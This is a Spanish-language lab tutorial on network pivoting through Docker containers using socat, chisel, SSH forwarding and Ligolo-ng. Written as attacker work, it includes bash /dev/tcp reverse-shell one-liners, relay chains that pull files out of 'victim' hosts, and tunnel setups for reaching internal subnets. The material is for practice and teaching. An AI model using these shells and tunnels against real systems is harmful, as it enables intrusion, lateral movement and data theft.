# Pivoting de red: laboratorio práctico con Docker (chisel, socat y Ligolo-ng) 



- El laboratorio lo podremos encontrarlo en el siguiente repositorio: [https://github.com/b0ySie7e/pivoting-lab](https://github.com/b0ySie7e/pivoting-lab)
- En este articulo abordaremos una guia completa en el uso de socat y chisel, asi como ligolo para pivoting en varais subredes.

---

# Pivoting con chisel y socat

## Compartir archivos

A través de la red 192.168.174.0/24 tengo acceso a la maquina A y la maquina A tiene acceso a la maquina KALI-01 a través de la misma red. Pero no puedo acceder a la maquina B, C ni D.

### Compartir archivos desde B

Primero compartiremos el socat a la maquina A y realizaremos la siguiente configuración:

- Maquina kali:

```c
❯ python3 -m http.server 9001
```

- Maquina A:

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:192.168.174.128:9001
```

Ponemos a la escucha en el puerto 1111 y todas solicitudes que ingresen por ese puerto redirigirá a la IP 192.168.174.128 y puerto 9001.

- Maquina B:

```c
seven@node-b:~$ wget http://10.10.2.10:1111/socat
```

Al hacer una solicitud a la IP 10.10.2.10 en el puerto 1111, el socat redirige a la IP de nuestra maquina kali en el cual hace una solicitud al puerto 9001 que tiene un servicio web. De esta manera logra descargar el archivo socat.




- **B se conecta a A**, no a kali. B pide `http://10.10.2.10:1111/socat`, o sea abre una conexión TCP contra A en el puerto 1111. Esto es lo único que B puede hacer, porque B alcanza a A pero **no** a kali.
- **A recibe la conexión en su 1111**. Gracias al `socat`, A inmediatamente abre otra conexión hacia `kali:9001`.
- **A reenvía la petición HTTP de B hacia kali**. La línea `GET /socat HTTP/1.1` que envió B viaja tal cual, a través de A, hasta el `http.server` de kali.
- **kali responde con el archivo `socat`**. El servidor HTTP entrega el binario. Esos datos entran a A por el extremo de kali...
- **A los devuelve a B** por el extremo del 1111, que es la conexión que B tenía abierta.
- **B guarda el archivo**. Desde la perspectiva de B, "descargó de A"; en realidad A solo hizo de puente y el binario venía de kali.



### Doble Pivoting

Ahora lo haremos desde la maquina C. Para ello mantendremos la configuracion en la maquina A y solo agregaremos una configuración en la maquina B:

- Maquina kali:

```c
❯ python3 -m http.server 9001
```

- Máquina A - relay hacia kali (sin cambios respecto al paso anterior):

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:192.168.174.128:9001
```

- Máquina B - nuevo relay hacia A:

```c
seven@node-b:~$ ./socat TCP-LISTEN:2222,fork TCP:10.10.2.10:1111
```

- Maquina C:

```c
seven@node-c:~$ wget http://10.10.3.20:2222/socat
```

C pide el archivo a B (10.10.3.20) en el puerto 2222.



Qué pasa paso a paso

- **C se conecta a B, no a A ni a kali.** C pide `http://10.10.3.20:2222/socat`, es decir abre una conexión TCP contra B en el puerto 2222. Esto es lo único que C puede hacer, porque C alcanza a B pero no a A ni a kali.
- **B recibe la conexión en su 2222.** Gracias al `socat`, B inmediatamente abre otra conexión hacia `A:1111`.
- **A recibe esa conexión en su 1111.** Su propio `socat` abre a su vez una conexión hacia `kali:9001`. Ya hay dos puentes en cadena: C→B→A→kali.
- **La petición HTTP de C viaja por toda la cadena.** La línea `GET /socat HTTP/1.1` que envió C atraviesa B, luego A, y llega tal cual al `http.server` de kali.
- **kali responde con el archivo `socat`.** El servidor HTTP entrega el binario. Esos datos entran a A por el extremo de kali...
- **A los devuelve a B**, y **B los devuelve a C** por el extremo del 2222, que es la conexión que C tenía abierta.
- **C guarda el archivo.** Desde la perspectiva de C, "descargó de B"; en realidad ni B ni A tenían el binario: solo hicieron de puente, y el archivo venía de kali.



### Triple Pivoting

Ahora lo haremos desde la maquina D. Para ello mantendremos la configuración en las anteriores maquinas y agregaremos una configuración en la maquina C

- Maquina kali:

```c
❯ python3 -m http.server 9001
```

- Máquina A - relay hacia kali (sin cambios respecto al paso anterior):

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:192.168.174.128:9001
```

- Máquina B (relay hacia A - sin cambios):

```c
seven@node-b:~$ ./socat TCP-LISTEN:2222,fork TCP:10.10.2.10:1111
```

- Máquina C (nuevo relay hacia B):

```c
seven@node-c:~$ ./socat TCP-LISTEN:3333,fork TCP:10.10.3.20:2222
```

- Maquina D:

```c
seven@node-d:~$ wget http://10.10.4.30:3333/socat
```



### Qué pasa paso a paso

- **D se conecta a C, no a B, A ni kali.** D pide `http://10.10.4.30:3333/socat`, es decir abre una conexión TCP contra C en el puerto 3333. Esto es lo único que D puede hacer, porque D alcanza a C pero no a B, A ni kali.
- **C recibe la conexión en su 3333.** Gracias al `socat`, C inmediatamente abre otra conexión hacia `B:2222`.
- **B recibe esa conexión en su 2222.** Su propio `socat` abre a su vez una conexión hacia `A:1111`.
- **A recibe la conexión en su 1111.** Su `socat` abre la última conexión de la cadena hacia `kali:9001`. Ya hay tres puentes encadenados: D→C→B→A→kali.
- **La petición HTTP de D viaja por toda la cadena.** La línea `GET /socat HTTP/1.1` que envió D atraviesa C, luego B, luego A, y llega tal cual al `http.server` de kali.
- **kali responde con el archivo `socat`.** El servidor HTTP entrega el binario. Esos datos entran a A por el extremo de kali...
- **A los devuelve a B, B a C, y C a D** por el extremo del 3333, que es la conexión que D tenía abierta.
- **D guarda el archivo.** Desde la perspectiva de D, "descargó de C"; en realidad ni C, ni B, ni A tenían el binario: los tres solo hicieron de puente, y el archivo venía de kali.



## D -> maquina Kali - 01

Bien, ya entendimos cómo compartir archivos o binarios desde la máquina atacante hacia las máquinas víctima. Pero el flujo también puede ir en sentido contrario: ¿cómo hacemos si lo que queremos es **traer un archivo desde una máquina víctima (B, C o D) de vuelta hasta la máquina atacante (kali)**?

Esto es muy común en un escenario real: exfiltrar información, recuperar el resultado de un comando, descargar credenciales o cualquier archivo interesante que encontremos en los equipos internos. El reto es el mismo de siempre -esas máquinas no tienen conexión directa con kali así que reutilizaremos la misma idea de encadenar relays con `socat`, solo que ahora invirtiendo los extremos: el archivo **sale de la víctima** y viaja por la cadena hasta kali, que será quien lo reciba.

Para esto tenemos dos casos:

### Ubuntu

En este caso invertimos el sentido de la cadena: en lugar de bajar un archivo desde la atacante hasta D, lo traemos desde D hacia la máquina Ubuntu. La técnica es la misma —relays de socat encadenados— pero ahora cada nodo apunta hacia el siguiente salto hacia dentro

- Maquina A (relay hacia B):

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:10.10.2.20:2222
```

- Maquina B (relay hacia C):

```c
seven@node-b:~$ ./socat TCP-LISTEN:2222,fork TCP:10.10.3.30:3333
```

- Maquina C (relay hacia D):

```c
seven@node-c:~./socat TCP-LISTEN:3333,fork TCP:10.10.4.40:4444
```

- Maquina D (sirve el archivo):

```c
seven@node-d:~$ python3 -m http.server 4444
```



- Maquina Ubuntu (descarga a través de la cadena):

```c
❯ curl http://10.10.2.10:1111/D.txt
maquina D
```

La Ubuntu pide el archivo a A:1111, y cada socat reenvía al siguiente nodo (A→B→C→D) hasta llegar al http.server de D, que entrega D.txt. La respuesta vuelve por la misma cadena. Aunque la petición se hace contra A, el archivo realmente sale de D y los nodos intermedios solo hacen de puente.

### KALI 01

#### Con SSH

Desde kali-01 no llegamos al puerto 1111 de A directamente, porque la Ubuntu (kali-02) solo tiene publicado el puerto 2222 (SSH). La solución es aprovechar ese SSH para montar un port forwarding y así alcanzar la cadena de socat sin publicar puertos nuevos.

Mantenemos la misma configuración de relays en las víctimas:

- Maquina A (relay hacia B):

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:10.10.2.20:2222
```

- Maquina B (relay hacia C):

```c
seven@node-b:~$ ./socat TCP-LISTEN:2222,fork TCP:10.10.3.30:3333
```

- Maquina C (relay hacia D):

```c
seven@node-c:~./socat TCP-LISTEN:3333,fork TCP:10.10.4.40:4444
```

- Maquina D (sirve el archivo):

```c
seven@node-d:~$ python3 -m http.server 4444
```

- Maquina Kali-01 (túnel SSH con port forwarding):

```c
❯ ssh -p 2222 -L 1111:127.0.0.1:1111 seven@192.168.174.134
```



El parámetro -L 1111:127.0.0.1:1111 crea un túnel: todo lo que enviemos al puerto 1111 local de kali-01 viaja por el SSH y sale dentro de A, justo hacia su 127.0.0.1:1111, que es donde está escuchando el primer socat. A partir de ahí, la cadena hace el resto (A→B→C→D).

Con el túnel abierto, hacemos el curl contra nuestro propio 127.0.0.1:1111:


```c
❯ curl http://127.0.0.1:1111/D.txt
maquina D
```

El túnel SSH nos "acerca" el puerto 1111 de A a nuestra máquina local, y la cadena de socat lleva la petición hasta D. Aunque pedimos el archivo a 127.0.0.1, este realmente viene de D pasando por todos los pivotes.

#### Sin SSH — Pivoting con Chisel (reverse) + socat

Cuando A **no** tiene SSH ni ningún puerto publicado hacia el host, kali-01 no puede _entrar_ a la cadena. La solución es invertir el sentido con **chisel en modo reverse**: es **A quien se conecta hacia kali-01** y abre un túnel SOCKS. Así kali-01 obtiene acceso a la red interna sin abrir un solo puerto en A —el reemplazo natural de un `ssh -D`.

Sobre ese SOCKS montamos, como siempre, la cadena de `socat` para alcanzar los nodos más profundos (C y D).

##### Configuración

- Maquina kali-01 (servidor chisel, a la escucha):

```c
❯ ./chisel server -p 9001 --reverse
```

- Maquina A (cliente chisel: sale hacia kali-01 y publica un SOCKS reverse en el 1080):

```c
seven@node-a:~$ ./chisel client 192.168.174.128:9001 R:1080:socks
```

- Maquina B (relay hacia C):

```c
seven@node-b:~$ ./socat TCP-LISTEN:2222,fork TCP:10.10.3.30:3333
```

- Maquina C (relay hacia D):

```c
seven@node-c:~$ ./socat TCP-LISTEN:3333,fork TCP:10.10.4.40:4444
```

- Maquina D (sirve el archivo):

```c
seven@node-d:~$ python3 -m http.server 4444
```

##### Configurar proxychains en kali-01

El SOCKS de chisel es **v5**, así que editamos la config y añadimos la línea correspondiente:

```c
❯ sudo nano /etc/proxychains4.conf
```

Al final, en `[ProxyList]`, agregamos:

```c
socks5  127.0.0.1  1080
```

```c
❯ proxychains4 -q curl http://10.10.2.20:2222/D.txt
maquina D
                                                                                            
❯ proxychains4 curl http://10.10.2.20:2222/D.txt
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.2.20:2222  ...  OK
maquina D
```



Con el túnel ya montado, kali-01 descarga el archivo que sirve **D** apuntando a `10.10.2.20:2222` (el relay de socat en B) a través del SOCKS:

```c
❯ proxychains4 -q curl http://10.10.2.20:2222/D.txt
maquina D
```

Aunque la petición se hace contra B, el archivo realmente sale de D: cada tramo la va acercando hasta el `http.server` del nodo más profundo.

Cómo viaja la conexión:

```
kali-01 ─► SOCKS (chisel, sale en A) ─► B:2222 ═► C:3333 ═► D:4444 (http.server)
```

1. **kali-01 → proxychains → SOCKS 1080**: la petición entra al túnel de chisel y "sale" en **A** (que es donde vive el SOCKS reverse).
2. **A → B:2222**: desde A, ya en la red interna, el tráfico llega al primer relay de socat, en B.
3. **B → C:3333 → D:4444**: cada `socat` reenvía al siguiente salto hasta el `http.server` de **D**, que entrega `D.txt`.
4. La respuesta (`maquina D`) vuelve por el mismo camino hasta kali-01.

## Reverse Shell



Para las reverse shell se aplica el mismo concepto que usamos al transferir archivos: encadenar relays con socat para salvar los tramos que no tienen conexión directa. Solo cambian los dos extremos de la cadena:

- En lugar de levantar un servidor web con Python, en la máquina kali nos ponemos a la escucha con nc.
- En lugar de pedir el archivo con una solicitud web (wget), desde la víctima lanzamos la reverse shell con la herramienta que prefiramos (bash, python, etc.).

La diferencia clave está en el sentido del tráfico: al transferir archivos, la petición salía de la víctima hacia dentro de la cadena para llegar al servidor de kali; en una reverse shell es la víctima quien inicia la conexión hacia afuera, y cada socat la va empujando salto a salto hasta el nc que espera en kali.

### Reverse Shell desde B

B alcanza a A pero no a kali-01, así que **A actúa como único relay** hacia afuera: escucha en su puerto `1111` y reenvía todo hacia `kali-01:9050`. B lanza la shell contra A, y A la entrega a kali-01.



- Maquina A (relay hacia kali-01):

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:192.168.174.128:9050
```

- Maquina B (lanza la shell hacia A):

```c
seven@node-b:~$ bash -i >& /dev/tcp/10.10.2.10/1111 0>&1
```

- Maquina KALI-01

```C
❯ ncat -lnvp 9050
```



La reverse shell de B se conecta a `A:1111`; el `socat` de A la reenvía a `kali-01:9050`, donde el `ncat` recibe la sesión. B nunca "ve" a kali: solo habla con A, que hace de puente: 

```c
Flujo: B → A:1111 → kali-01:9050 (ncat)
```

### Reverse Shell desde C

C solo alcanza a B. Mantenemos el relay de A y **añadimos un relay en B**: B escucha en `2222` y reenvía a `A:1111`, que a su vez reenvía a kali-01. La shell de C sube dos saltos (C → B → A) antes de salir a kali.



- Maquina A (relay hacia kali-01):

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:192.168.174.128:9050
```

- Maquina B (relay hacia A):

```c
seven@node-b:~./socat TCP-LISTEN:2222,fork TCP:10.10.2.10:1111
```

- Maquina C (lanza la shell hacia B):

```c
seven@node-c:~bash -i >& /dev/tcp/10.10.3.20/2222 0>&1 
```

- Maquina KALI-01

```C
❯ ncat -lnvp 9050
```



C lanza la shell contra `B:2222`; B la reenvía a `A:1111`, y A a `kali-01:9050`. Ni B ni A "tienen" la shell: son puentes encadenados que acercan la sesión de C hasta kali.

```c
Flujo: C → B:2222 → A:1111 → kali-01:9050 (nc)
```

### Reverse Shell desde D

D es el nodo más profundo y solo alcanza a C. Mantenemos los relays de A y B, y **añadimos uno en C**: C escucha en `3333` y reenvía a `B:2222`. Ahora la shell de D atraviesa **tres saltos** (D → C → B → A) hasta llegar a kali-01.



- Maquina A (relay hacia kali-01):

```c
seven@node-a:~$ ./socat TCP-LISTEN:1111,fork TCP:192.168.174.128:9050
```

- Maquina B (relay hacia A):

```c
seven@node-b:~./socat TCP-LISTEN:2222,fork TCP:10.10.2.10:1111
```

- Maquina C (relay hacia B):

```c
seven@node-c./socat TCP-LISTEN:3333,fork TCP:10.10.3.20:2222
```

- Maquina D (lanza la shell hacia C):

```c
seven@node-d:~$ bash -i >& /dev/tcp/10.10.4.30/3333 0>&1
```

- Maquina KALI-01

```C
❯ ncat -lnvp 9050
```



D lanza la shell contra `C:3333`; cada `socat` la empuja al salto anterior (C → B → A) hasta que A la entrega a `kali-01:9050`. Lo que escribas en el `ncat` baja por toda la cadena hasta el `bash` de D, y su salida sube de vuelta por el mismo camino: una shell interactiva del nodo más aislado, a través de tres pivotes.

```c
Flujo: D → C:3333 → B:2222 → A:1111 → kali-01:9050 (nc)
```

## Forwarding de Puertos (Servicio Web)



En este caso vemos que hay dos sitios webs los cuales son B y C

### Acceso a Web en B

El web de B está en 10.10.2.20:80, pero kali-01 no lo alcanza directamente. Levantamos el túnel con chisel en modo reverse y obtenemos un SOCKS en 127.0.0.1:1080 que "sale" en A. Como A ve la red de B de forma directa, con ese SOCKS ya llegamos al web.



#### Con Curl:

- Maquina Kali-01 (servidor chisel, a la escucha):

```c
❯ ./chisel server -p 9001 --reverse
```

- Maquina A (cliente chisel: abre el SOCKS reverse en el 1080):

```c
seven@node-a:~$ ./chisel client 192.168.174.128:9001 R:1080:socks
```

Con el túnel arriba, pedimos el web pasando por proxychains:

```c
❯ proxychains4 -q curl http://10.10.2.20/
<h1>Web B - pivoting lab</h1>
```



#### En el navegador:

`curl` puede usar proxychains, pero el navegador no: hay que decirle que use el SOCKS. Para eso instalamos **FoxyProxy** (si no lo tenemos) y añadimos un nuevo proxy con la configuración del túnel — tipo **SOCKS5**, host `127.0.0.1`, puerto `1080`:
Para el tema del navegador instalamos foxy proxy si en caso no lo tenemos y agregamos un nuevo proxy con la siguiente configuración:



Activamos ese proxy y navegamos a http://10.10.2.20/. El tráfico del navegador sale por A y ya vemos la web:



Con SSH:

- Si el nodo tuviera SSH, en lugar de chisel podemos abrir el mismo SOCKS con el parámetro -D:

```c
❯ ssh seven@192.168.174.134 -D 1080 -p 2222
```

Funciona igual que chisel: crea un SOCKS en 127.0.0.1:1080 que sale en A, y tanto curl (con proxychains) como el navegador (con FoxyProxy) acceden al web de la misma forma.

### Acceso a Web en C

La web de C está en 10.10.3.30:80, en la red 10.10.3.0/24. A diferencia de B, aquí el SOCKS de chisel no basta: ese SOCKS sale en A, y A solo ve la red de B (10.10.2.0/24), no la de C. Por eso usamos B como relay con socat para acercar la web de C a la red que A sí alcanza.

La técnica: un socat en B que escuche en un puerto propio y reenvíe a 10.10.3.30:80. Desde A/kali, la web de C queda accesible en B:8080 (10.10.2.20:8080).



#### Con Curl:

- Maquina Kali-01 (servidor chisel):

```c
❯ ./chisel server -p 9001 --reverse
```

- Maquina A (cliente chisel, SOCKS reverse en el 1080):

```c
seven@node-a:~$ ./chisel client 192.168.174.128:9001 R:1080:socks
```

- Maquina B (reenvía su puerto 8080 a la web de C):

```c
seven@node-b:~$ ./socat TCP-LISTEN:8080,fork TCP:10.10.3.30:80
```

Pedimos la web de C a través de `B:8080`, pasando por proxychains:
 
```c
❯ proxychains4 -q curl http://10.10.2.20:8080/
<h1>Web C - pivoting lab</h1>
```



#### En el Navegador

Con el mismo proxy **SOCKS5 `127.0.0.1:1080`** ya configurado en FoxyProxy (el de la web de B), solo cambiamos la URL y navegamos a:

```
http://10.10.2.20:8080/
```



El navegador sale por A → llega a B:8080 → B reenvía a la web de C, y vemos la página.
 
Cómo viaja la petición
 
```
navegador/curl ─► SOCKS (chisel, sale en A) ─► B:8080 ═(socat)═► C:80 (web)
```
 
A ve a B directamente (gracias al SOCKS), y el `socat` de B completa el último tramo hasta C. Por eso, aunque apuntamos a `10.10.2.20:8080`, la página que se muestra es realmente la de C.

Con SSH:

- Si el nodo tuviera SSH, en lugar de chisel podemos abrir el mismo SOCKS con el parámetro -D:

```c
❯ ssh seven@192.168.174.134 -D 1080 -p 2222
```

Funciona igual que chisel: crea un SOCKS en 127.0.0.1:1080 que sale en A, y tanto curl (con proxychains) como el navegador (con FoxyProxy) acceden al web de la misma forma.
# Pivoting con Ligolo



A diferencia de chisel + socat, Ligolo-ng no usa SOCKS ni cadenas de relays: crea una interfaz de red virtual (`tun`) en kali-01 y, agregando **rutas**, hace que las redes internas sean alcanzables **por su IP real**, sin proxychains. Consta de dos piezas: el **proxy** (corre en kali-01) y el **agent** (corre en la víctima).
 
Preparamos la interfaz y la ruta hacia la red de B en kali-01:

```c
❯ sudo ip tuntap add user $(whoami) mode tun ligolo
❯ sudo ip link set ligolo up
❯ sudo ip route add 10.10.2.0/24 dev ligolo
```
 
Levantamos el proxy (con `sudo`, ya que necesita permisos para gestionar la interfaz y las rutas):
 
```c
$ ./ligolo-proxy -selfcert
O si queremos levantar la red directamente:
$ ./ligolo-proxy -selfcert -laddr 0.0.0.0:11601
```
 
Subimos el binario `agent` a la máquina A y lo conectamos de vuelta a kali-01:
 
```c
./agent -connect 192.168.174.128:11601 -ignore-cert
```
 
En la consola del proxy seleccionamos la sesión de A e iniciamos el túnel:
 
```c
ligolo-ng » session
? Specify a session : 1 - seven@node-a
[Agent : seven@node-a] » start
```
 
Con esto kali-01 ya alcanza la red de B (10.10.2.0/24) por su IP real. Lo comprobamos:
 
```c
❯ curl http://10.10.2.20/
<h1>Web B - pivoting lab</h1>
```
## Compartir archivos

### Compartir archivos desde B

B no tiene conexión directa con kali-01: solo comparte con A el segmento interno 10.10.2.0/24. Por eso no puede descargar un archivo de kali-01 apuntando a su IP. La solución es crear un **listener** en el agente A: A escucha en un puerto suyo y reenvía ese tráfico, a través del túnel, hasta kali-01. Así B descarga "de A", pero el archivo sale realmente de kali-01.
 
Creamos el listener en la sesión de A:

- Maquina Kali-01
```c
[Agent : seven@node-a] » listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```
 
- `--addr 0.0.0.0:1235` → A abre y escucha el puerto `1235` (la cara hacia B).
- `--to 0.0.0.0:8000` → todo lo que llegue a ese `1235` se reenvía al puerto `8000` de kali-01 (donde estará nuestro servidor).
Podemos verificarlo con:
 
```c
[Agent : seven@node-a] » listener_list
```
 
Servimos el archivo en kali-01:
 
```c
❯ python3 -m http.server 8000
```
 
Y desde B descargamos apuntando a A (10.10.2.10) en el puerto del listener (`1235`):

- Maquina B
```c
seven@node-b:~$ wget http://10.10.2.10:1235/archivo
```

![20260818212755.png]
(20260818212755.png) 
Cómo viaja la petición:
 
```
B ─► A:1235 (listener ligolo) ═══(túnel)═══► kali-01:8000 (http.server)
B ◄──────────── archivo ◄───────────────────  kali-01
```



B pide a `A:1235`; el agente de A mete esa petición en el túnel de ligolo y sale en `kali-01:8000`, donde el `http.server` entrega el archivo, que vuelve por el mismo camino. Es el equivalente al `socat TCP-LISTEN:...,fork TCP:kali:...` que montábamos antes en A, pero gestionado por el propio agente de ligolo.

### Compartir archivos desde C

C está en la red 10.10.3.0/24, que **A no ve** (A solo llega hasta B). Para alcanzarla necesitamos un **doble pivote**: montar un segundo agente en B. El problema es que B tampoco llega a kali-01, así que primero creamos un listener en A sobre el puerto `11601` que reenvíe al proxy; de esa forma el agente de B se conecta a **A** y llega a ligolo a través del túnel.

#### Paso 1 - Pasar el agent a B

Usa el listener de archivos que ya tienes en B (`1235 → 8000`) para bajar el binario a B:

```c
# kali-01
❯ python3 -m http.server 8000

# Maquina B
seven@node-b:~$ wget http://10.10.2.10:1235/agent && chmod +x agent
```
#### Paso 2 - Listener del 11601 en la sesión de A

En la sesión de A añadimos el listener que permite que B reconecte a ligolo:

- Maquina kali-01:
```c
[Agent : seven@node-a] » listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
```

A escucha en `11601` y reenvía esa conexión, por el túnel, al proxy de kali-01.
#### Paso 3 - Levantar el agent en B (apuntando a A)

Como B no ve a kali-01, el agente se conecta a A (10.10.2.10) en ese 11601:

- Maquina B:
```c
seven@node-b:~$ ./agent -connect 10.10.2.10:11601 -ignore-cert
```

En la consola de ligolo aparece la nueva sesión (B).
#### Paso 4 - Cambiar el túnel a la sesión de B

En esta versión, la interfaz `ligolo` ya la usa el túnel de A, así que primero lo detenemos y luego arrancamos el de B:

- Maquina kali-01:
```c
# detener el túnel de A
[Agent : seven@node-a] » stop

# cambiar a la sesión de B y arrancar su túnel
ligolo-ng » session
? Specify a session : 2 - seven@node-b
[Agent : seven@node-b] » start
```

Como B ve tanto la red de A (10.10.2.0/24) como la de C (10.10.3.0/24), no perdemos acceso a B al hacer este cambio.



#### Paso 5 - Agregar la ruta de la red de C

En otra terminal de kali-01:

- Maquina kali-01:
```c
❯ sudo ip route add 10.10.3.0/24 dev ligolo
```

Comprobamos el acceso a C por su IP real:

- Maquina kali-01:
```c
❯ curl http://10.10.3.30/
<h1>Web C - pivoting lab</h1>
```

#### Paso 6 - Compartir el archivo desde C

El listener de archivos ahora va en la sesión de B (que es quien ve a C), reenviando a kali-01:

- Maquina kali-01:
```c
[Agent : seven@node-b] » listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```



- Maquina kali-01:
```c
❯ python3 -m http.server 8000
```

C descarga apuntando a **B (10.10.3.20)** en el puerto del listener:

- Maquina C:
```c
seven@node-c:~$ wget http://10.10.3.20:1235/archivo
```

#### Cómo viaja la petición

```c
C ─► B:1235 (listener) ═(túnel B→A→kali-01)═► kali-01:8000 (http.server)
C ◄──────────── archivo ◄─────────────────────  kali-01
```

C pide a B:1235; el agente de B mete esa petición en el túnel, que ya está encadenado B→A→kali-01, y sale en el http.server de kali. El archivo vuelve por el mismo camino.

### Compartir archivos desde D

Para D es el **triple pivote**: el mismo patrón, pero un nivel más abajo. D está en 10.10.4.0/24, que solo **C** ve. Así que ahora montamos un tercer agente en C, y como C tampoco llega a kali-01, el listener del `11601` va en la sesión de **B** (que es quien ve a C).

Vamos paso por paso. Punto de partida: ya tienes el túnel saliendo por B y la ruta de C funcionando.

#### Paso 1 - Pasar el agent a C

Usa el listener de archivos que ya tienes en B (`1235 → 8000`) para bajar el binario a C:

```c
# kali-01
❯ python3 -m http.server 8000
# Maquina C
seven@node-c:~$ wget http://10.10.3.20:1235/agent && chmod +x agent
```

#### Paso 2 - Listener del 11601 en la sesión de B

Ahora el "puente" para reconectar lo pone **B** (que es quien alcanza a C):

```c
[Agent : seven@node-b] » listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
```

#### Paso 3 - Levantar el agent en C (apuntando a B)

C no ve a kali ni a A; solo a B. Así que el agente de C se conecta a **B (10.10.3.20)** en el 11601:

```c
seven@node-c:~$ ./agent -connect 10.10.3.20:11601 -ignore-cert
```

Aparece la nueva sesión (C) en ligolo.

#### Paso 4 - Cambiar el túnel a la sesión de C (Opción 1)

Igual que antes: detienes el túnel de B y arrancas el de C sobre la misma interfaz.

```c
# detener el túnel de B
[Agent : seven@node-b] » stop
# cambiar a la sesión de C y arrancar
ligolo-ng » session
? Specify a session : 3 - seven@node-c
[Agent : seven@node-c] » start
```



Como C ve tanto la red de B (10.10.3.0/24) como la de D (10.10.4.0/24), no pierdes acceso a C.

#### Paso 5 - Agregar la ruta de la red de D

En otra terminal de kali-01:

```c
❯ sudo ip route add 10.10.4.0/24 dev ligolo
```

Comprueba el acceso a D por IP real:

```c
❯ ip route | grep ligolo         # deben estar 10.10.2, 10.10.3 y 10.10.4
```

#### Paso 6 - Compartir el archivo desde D

El listener de archivos ahora va en la **sesión de C** (que es quien ve a D):

```c
[Agent : seven@node-c] » listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```



```c
# kali-01
❯ python3 -m http.server 8000
# D descarga apuntando a C (10.10.4.30)
seven@node-d:~$ wget http://10.10.4.30:1235/archivo
```

#### Cómo viaja

```
D ─► C:1235 (listener) ═(túnel C→B→A→kali-01)═► kali-01:8000 (http.server)
```

D pide a `C:1235`; el agente de C lo mete en el túnel encadenado C→B→A→kali-01 y sale en el `http.server`. El archivo vuelve por el mismo camino.


## Revershell



Preparamos la interfaz y la ruta hacia la red de B en kali-01:

```c
❯ sudo ip tuntap add user $(whoami) mode tun ligolo
❯ sudo ip link set ligolo up
❯ sudo ip route add 10.10.2.0/24 dev ligolo
```
 
Levantamos el proxy (con `sudo`, ya que necesita permisos para gestionar la interfaz y las rutas):
 
```c
$ ./ligolo-proxy -selfcert
O si queremos levantar la red directamente:
$ ./ligolo-proxy -selfcert -laddr 0.0.0.0:11601
```
 
Subimos el binario `agent` a la máquina A y lo conectamos de vuelta a kali-01:
 
```c
./agent -connect 192.168.174.128:11601 -ignore-cert
```
 
En la consola del proxy seleccionamos la sesión de A e iniciamos el túnel:
 
```c
ligolo-ng » session
? Specify a session : 1 - seven@node-a
[Agent : seven@node-a] » start
```
 
Con esto kali-01 ya alcanza la red de B (10.10.2.0/24) por su IP real. Lo comprobamos:
 
```c
❯ curl http://10.10.2.20/
<h1>Web B - pivoting lab</h1>
```


### Revershell desde B

Teniendo configurado la interface y el agente corriendo en la maquina A debemos agregar un listener

```c
[Agent : seven@node-a] » listener_add --addr 0.0.0.0:2222 --to 0.0.0.0:1111 --tcp
```

- `--addr 0.0.0.0:2222` → A abre y escucha el puerto `2222` (la cara hacia B).
- `--to 0.0.0.0:1111` → todo lo que llegue a ese `2222` se reenvía al puerto `1111` de kali-01 (donde estará nuestro servidor).

Ahora debemos lanzar una revershell y ponernos a la escucha con ncat:

- Maquina B:
```c
seven@node-b:~$ bash -i >& /dev/tcp/10.10.2.10/2222 0>&1
```

- Maquina kali-01:
```c
❯ ncat -lnvp 1111
```



### Revershell desde C

Teniendo en cuenta la configuración del apartado de A, procedemos a configurar:

Agregaremos un listener:

- Maquina kali-01
```c
[Agent : seven@node-a] » listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601 --tcp
```

El cual se pondrá a la escucha en la red de A en el puerto 11601 y lo redirigira al puerto 11601 de nuestra maquina en donde esta corriendo ligolo-ng

- Maquina B:
```c
seven@node-b:~$ ./agent -connect 10.10.2.10:11601 -ignore-cert
```

- Maquina kali-01
```c
[Agent : seven@node-a] » session
? Specify a session : 2 - seven@node-b - 127.0.0.1:58186 - 02420a0a0214
[Agent : seven@node-b] » start
INFO[7223] Starting tunnel to seven@node-b (02420a0a0214) 
[Agent : seven@node-b] »  
```

Luego ponemos en `stop` la session A, luego eligiremos la session de la red B e iniciaremos con `start`

Luego debemos agregar la ruta:

```c
sudo ip route add 10.10.3.0/24 dev ligolo
```

Luego de agregar podemos hacer ping a la maquina C (IP -> 10.10.3.30)



Ahora, para recibir una shell debemos configurar un listener. Al igual que socat debemos configurar un puerto que escucha en un puerto y redirige a nuestra maquina.

- Maquina kali-01:
```c
[Agent : seven@node-b] » listener_add --addr 0.0.0.0:3333 --to 0.0.0.0:2222 --tcp
```



- Maquina C:
```c
seven@node-c:~$ bash -i >& /dev/tcp/10.10.3.20/3333 0>&1
```



### Revershell desde D

Teniendo la configuración desde C, agregaremos un listener:

- Maquina kali-01
```c
[Agent : seven@node-b] » listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601 --tcp
```

El cual se pondrá a la escucha en la red de A en el puerto 11601 y lo redirigira al puerto 11601 de nuestra maquina en donde esta corriendo ligolo-ng

- Maquina C:
```c
seven@node-c:~$ ./agent -connect 10.10.3.20:11601 -ignore-cert
```

- Maquina kali-01
```c
[Agent : seven@node-b] » stop
[Agent : seven@node-b] » INFO[1642] Closing tunnel to seven@node-b (02420a0a0214)... 
[Agent : seven@node-b] » 
[Agent : seven@node-b] » INFO[1649] Agent joined.                                 id=02420a0a031e name=seven@node-c remote="127.0.0.1:35232"
[Agent : seven@node-b] » 
[Agent : seven@node-b] » session
? Specify a session : 3 - seven@node-c - 127.0.0.1:35232 - 02420a0a031e
[Agent : seven@node-c] » start
```

Luego ponemos en `stop` la session B, luego eligiremos la session de la red C e iniciaremos con `start`

